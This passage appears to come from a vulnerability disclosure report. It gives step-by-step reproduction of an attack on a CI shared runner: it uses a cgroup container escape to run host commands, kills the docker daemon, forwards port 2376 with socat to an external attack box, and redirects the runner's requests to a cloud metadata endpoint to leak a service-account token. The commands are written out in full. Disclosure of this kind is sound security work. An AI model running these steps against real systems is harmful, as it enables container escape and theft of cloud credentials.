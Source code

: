 Run the attached `maliciousHttpsServer.py`.

This will start an HTTPS server that uses the certs in the provided `server.pem` and `server-key.pem`
files. That way the Runner docker client has no way to tell it from the legitimate `dockerd`.


5 - Obtain the PID that's listening to port 2376 (docker daemon)

Run the following commands:
```
echo '#!/bin/sh' > /cmd
echo "sudo netstat -tanp > $host_path/n2" >> /cmd
chmod a+x /cmd
  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /n2
```

Take note of the PID listening to 2376.


6 - Kill the daemon and use `socat` to redirect IP packets to your
external machine.

Now we must send the traffic from the Executor to our attack box:

```
echo '#!/bin/sh' > /cmd
echo "sudo kill -9 999 && socat tcp-listen:2376,reuseaddr,fork tcp:1.2.3.4:1111 2> $host_path/k2" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Replace `999` with the correct PID, and `1.2.3.4` with the IP of your attack box.

7 - The external HTTPS now will redirect the Runner's Docker Client's
requests to the target.

Now the connection flow we have is this

```
[Runner-client] --TLS--> [Executor] --Socat--> [Malicious-HTTPS-server] --Redirect--> [Runner-client] --HTTP--> Target

```

The `maliciousHttpServer.py` script is configured to redirect GET requests to
`http://metadata.google.internal:80/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=text

(BTW the `v1beta1` endpoint is still working)

The same technique can be used to obtain SSRF with POST and DELETE requests.

8 - Observe the response in the job's error logs.

Now the Shared Runner will try to keep track of the running job, but it's HTTP requests
will end up hitting the metadata endpoint, so the response won't be valid.
The first letter of the response (`a` for `access_Token`) will show up in an error message
when it's trying to parse the response.
